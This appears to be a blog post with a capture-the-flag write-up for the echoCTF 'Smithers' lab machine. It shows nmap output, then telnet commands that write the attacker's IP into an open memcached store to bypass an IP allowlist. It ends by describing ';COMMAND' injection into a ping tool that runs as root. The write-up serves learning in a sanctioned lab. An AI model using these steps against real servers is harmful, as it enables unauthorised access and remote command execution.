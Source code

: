 ```yaml
---
layout: post
title: Smithers
feature-img: "assets/img/portfolio/smithers_site.png"
img: "assets/img/portfolio/smithers_site.png"
date: 06 Jun 2021
tags: [Lorem, Ipsum]
---
```



[smithers](https://echoctf.red/target/5)
![](/assets/images/smithers_site.png)


machine description:

Like Smithers this server will serve you well only if you manage to enter it's memcached store.

---

### Enumartion


nmap -sV -sC -p- 10.0.100.142  

Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-18 06:38 EDT
Nmap scan report for 10.0.100.142
Host is up (0.088s latency).
Not shown: 65533 closed ports
PORT      STATE SERVICE   VERSION

10888/tcp open  http      nginx
|_http-title: Network Tools

11211/tcp open  memcached Memcached 1.5.12 (uptime 488079 seconds)



## Enumartion

http://10.0.30.0:10888/

```
Network Utilities
These utilities are only available to authorized IP's only. 
If you need access to this page contact the administrator to update the ACL.
Server's version: 1.5.12
Visitor REMOTE_ADDR: 10.10.0.10
REMOTE_ADDR value not found on key.
You are not authorized to access this resource
```

### vulnerability

memcached server runing with full accsess and permisions


### Memcached  Enumartion

[Memcached](https://book.hacktricks.xyz/network-services-pentesting/11211-memcache)

we can understand that enter site is limite be ip and we see that REMOTE_ADDR value not found on key.

so lets try to add key with my ip address:

1. connecting using telnet 10.0.30.0 11211
2. add REMOTE_ADDR 0 0 10 
3. 10.10.0.10

```
$ telnet 10.0.30.0 11211
Trying 10.0.30.0...
Connected to 10.0.30.0.
Escape character is '^]'.
add REMOTE_ADDR 0 0 10
10.10.0.10
STORED

``` 

now we got access to other page with option to run ping


![](/assets/images/rce_smithers.png)

### Rce


lets try to run ping with ;COMMAND


![](/assets/images/Priv_sec_smithiers.png


### Privilege escalation


![](/assets/images/Priv_sec_smithiers.png)
                                                        
as we can see the proceess is running as root.
